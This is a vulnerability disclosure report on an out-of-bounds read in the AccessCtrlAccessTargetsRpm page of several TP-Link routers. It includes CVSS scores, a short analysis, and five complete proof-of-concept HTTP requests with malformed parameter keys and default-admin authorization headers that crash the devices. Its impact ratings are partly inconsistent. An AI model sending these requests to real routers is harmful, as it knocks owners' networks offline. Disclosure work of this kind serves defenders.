


# TP-Link TL-WR940N/TL-WR941ND/TL-WR743ND/TL-WR841N wireless router /userRpm/AccessCtrlAccessTargetsRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR940N V2/V3/V4,TP-Link TL-WR941ND V5/v6, WR743ND V1 and TP-Link TL-WR841N V8 wireless router. Its /userRpm/AccessCtrlAccessTargetsRpm component has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR940N V4  
  - TP-Link TL-WR940N V2/V3  
  - TP-Link TL-WR941ND V5/V6
  - TP-Link TL-WR743ND V1
  - TP-Link TL-WR841N V8  


## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR940N V4 is as follows:
```http
GET /HJIHOAFAGMOPWGIA/userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=test&dst_ip_start=192.168.2.100&dst_ip_end=192.168.2.199&dst_port_start=20&dst_port_end=22&proto=0&Commonport=0&url_0=&url_1=&url_2=&url_3=&||reboot=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.2.139:52911
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.2.139:52911/HJIHOAFAGMOPWGIA/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2/TL-WR941ND V5 is as follows:
```http
GET /MZKBGETBOHFWYCNC/userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=1&dst_ip_start=192.168.0.5&dst_ip_end=192.168.0.18&dst_port_start=12&dst_port_end=21&proto=1&Commonport=0&url_0=&url_1=&url_2=&url_3=&;reboot=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/ZRCEHZIAURWJWDTC/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link TL-WR940N V3/TL-WR941ND V6 is as follows:
```http
GET /IOCGBYQCUFENISDA/userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=1&dst_ip_start=192.168.0.5&dst_ip_end=192.168.0.18&dst_port_start=80&dst_port_end=32&proto=1&Commonport=4&url_0=&url_1=&url_2=&url_3=&;reboot|=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/WRKWVQRABLAJMDEB/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link WR743ND is as follows:
```http
GET /userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=soiefhsipf&dst_ip_start=192.168.1.4&dst_ip_end=192.168.1.33&dst_port_start=12&dst_port_end=23&proto=0&Commonport=0&url_0=&url_1=&url_2=&url_3=&Changed||reboot|=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49156
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49156/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link WR841N V8 is as follows:
```http
GET /userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=wefzerg&dst_ip_start=192.168.0.4&dst_ip_end=192.168.0.33&dst_port_start=24&dst_port_end=45&proto=0&Commonport=0&url_0=&url_1=&url_2=&url_3=&|reboot|=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49169
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49169/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```  

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/AccessCtrlAccessTargetsRpm component has a security vulnerability in processing the Changed GET key parameter. The Changed parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits the Changed parameter of this vulnerability to cause a buffer out-of-bounds read error, which may lead to memory-sensitive information disclosure and denial of service. Attackers can use this vulnerability to directly achieve the effect of denial of service attacks.

The firmware simulation process and interface are as follows:







After sending the constructed PoC, the cache area read out of bounds and a BadVA error occurred, resulting in denial of service.


## 5. The basis for judging as a 0-day vulnerability

Searching the AccessCtrlAccessTargetsRpm keyword in the NVD database did not find any vulnerabilities; searching the firmware model + parameter Changed keyword in the NVD database did not find any vulnerabilities, so it is considered a 0-day vulnerability.